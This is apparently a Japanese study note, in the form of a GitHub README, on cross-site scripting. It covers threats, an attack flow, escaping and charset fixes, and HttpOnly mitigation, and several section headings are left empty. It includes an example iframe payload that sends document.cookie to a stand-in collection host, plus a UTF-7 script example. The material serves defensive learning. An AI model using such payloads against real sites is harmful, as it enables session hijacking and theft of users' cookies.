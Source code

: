 # security-study

## XSS について調べてみた

### XSS の概要

ターゲットのブラウザ上で攻撃者が用意したスクリプトが実行される。
それによって以下のような脅威が発生する。

- ブラウザが保存しているクッキーを取得される
  - 成りすまし
  - クッキーに保存された個人情報の漏洩（ただし、一般的にはクッキーはセッション ID を保持するために使い、データを保存しないことが推奨される）
- 任意のクッキーをブラウザに保存させられる
  - セッション ID が利用者に送り込まれ、セッション ID の固定化攻撃に悪用される
- 本物サイト上に偽のページが表示される
  - フィッシングによる重要情報の漏洩

例えば、以下のような手口で行われる。

- 攻撃者が罠サイトを用意する
- 罠サイトの iframe 要素の中に脆弱なサイトが表示される
- クッキー値をクエリ文字列につけると情報収集ページに遷移する（XSS 攻撃！）
- 情報収集ページから攻撃者にクッキー値を送信する
- 罠サイトにターゲット がアクセスすれば XSS 攻撃が成立！
- クッキー値を盗むことで攻撃者はターゲットに成りすませる

```html
<html>
  <body>
    <br /><br />
    <iframe
      width="320"
      height="100"
      src="http://vulnerable-site.com/example.php?
    keyword=<script>window.location='http://unlawfully-collect-cookie-site.com/example.php?sid='%2Bdocument.cookie;</script>"
    ></iframe>
  </body>
</html>
```

### JavaScript による XSS

#### React で発生するケース

### XSS の根本的解決と保険的対策

#### 根本的解決

厳密には HTML テキストの入力を許可しない場合と HTML テキストの入力を許可する場合に分けられるが、多くの Web アプリケーションでは HTML テキストの入力を許可しないものを前提とする。（HTML テキストの入力を許可しうる Web アプリケーションの例として、ブログや掲示板など自由度の高い入力仕様があるものが挙げられる。）

- ウェブページに出力する全ての要素に対して、エスケープ処理を施す

  - ウェブページの表示に影響する特別な記号文字（「<」、「>」、「&」等）を、HTML エンティティ（「&lt;」、「&gt;」、「&amp;」等）に置換する
  - HTML タグを出力する場合は、その属性値を必ずダブルクォートで括り、それを「&quot;」にエスケープする
  - JavaScript の document.write メソッドや innerHTML プロパティ等を使用する場合も同様のエスケープ処理を行う

- HTTP レスポンスヘッダの Content-Type フィールドに文字コード（charset）を指定する

  - 文字コードの指定を省略すると、ブラウザが独自にエンコードするが、その挙動を悪用して不正なスクリプトを埋め込むことができる
  - 例えば、一部のブラウザでは「+ADw-script+AD4-alert(+ACI-test+ACI-)+ADsAPA-/script+AD4-」を UTF-7 でエンコードし、「<script>alert('test');</script>」が実行されてしまう（XSS 攻撃）
  - エスケープ処理を行っていても、ブラウザの文字エンコーディングと Web アプリケーションが想定している文字エンコーディングが異なると突破される可能性がある
  - エスケープ処理と合わせ、Web アプリケーションが想定している文字エンコーディングを指定することは必須

- URL を出力するときは、「http://」や 「https://」で始まる URL のみを許可する

  - URL には「javascript:」の形式で始まるものもあり、ウェブページに出力するリンク先や画像の URL が、外部からの入力に依存する形で動的に生成できると XSS 脆弱性が発生する
  - 利用者から入力されたリンク先の URL を「&lt;a href="リンク先の URL">」の形式でウェブページに出力する場合、その URL を「javascript:」で始めることで不正なスクリプトを埋め込める

- <script>...</script> 要素の内容を動的に生成しない

  - 外部からの入力に依存して生成されると XSS 脆弱性をうむ
  - 危険なスクリプトを区別するのは非現実的

- スタイルシートを任意のサイトから取り込めるようにしない
  - 生成するウェブページに XSS 攻撃ができるスクリプトが埋め込まれてしまう可能性がある
  - 危険なスクリプトを区別するのは非現実的

#### 保険的対策

基本的には根本的解決を図るべきだが、XSS の対策箇所が多いため、漏れが生じる可能性がある。

以下のような保険的対策をとることで、万が一漏れが生じていた場合に XSS の被害を軽減できる場合がある。

- 入力値に対してバリデーションをかける

  - 英数字などのみを入力可能なフォームでは有効
  - 幅広い文字種入力できるような仕様ではこの対策は取れない
  - 入力値の確認処理を通過した後の文字列の演算結果がスクリプト文字列を形成してしまうプログラムになっている可能性もあるため、あくまで保険にすぎない

- クッキーに HttpOnly 属性を付与する

  - JavaScript からのクッキー読み出しができなくなる
  - サーバー側のセッションを持続させるクッキーは JavaScript が利用する必要はないので、 HttpOnly 属性をつける
  - しかし、クッキーを盗まれなくなるにすぎないため、これだけでは XSS による他の脅威は残ったままであることに注意が必要

### 他の攻撃との比較

#### CSRF との違い

#### セッションハイジャックとの違い

#### フィッシングとの違い

### XSS によるセキュリティインシデントの実例

## 参考

- 安全な Web アプリケーションの作り方 第 2 版 徳丸浩
- [安全なウェブサイトの作り方 - 1.5 クロスサイト・スクリプティング](https://www.ipa.go.jp/security/vuln/websecurity/cross-site-scripting.html)
- [HTTP Cookie の使用](https://developer.mozilla.org/ja/docs/Web/HTTP/Cookies)
